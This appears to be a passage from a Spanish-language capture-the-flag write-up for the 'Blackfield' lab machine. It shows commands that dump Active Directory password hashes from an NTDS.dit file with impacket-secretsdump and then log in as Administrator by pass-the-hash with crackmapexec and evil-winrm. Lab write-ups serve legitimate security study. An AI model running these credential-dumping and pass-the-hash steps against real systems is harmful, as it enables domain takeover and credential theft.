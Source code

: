 > [ ! ] NOTAS: Si el download no funcciona, siempre podemos tratar de montar un directorio compartido a nivel de red con `impacket-smbfolder`

Ya podemos dumpear el ntds con `impacket-secretsdump`

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

Ya podemos ver todos los hashes de los usuarios activos del systema.

```bash
crackmapexec winrm 10.10.10.192 -u 'Administrator' -H 194fb5e5179499be6424d4cd53b99e
```

Pwn3d!!!!


```bash
evil-winrm -i 10.10.10.192 -u 'Administrator' -H 194fb5e5179499be6424d4cd53b99e
whoami 
#Output
blackfield\administrator
```

Aqui hemos rooteado la maquina y podemos leer la flag.
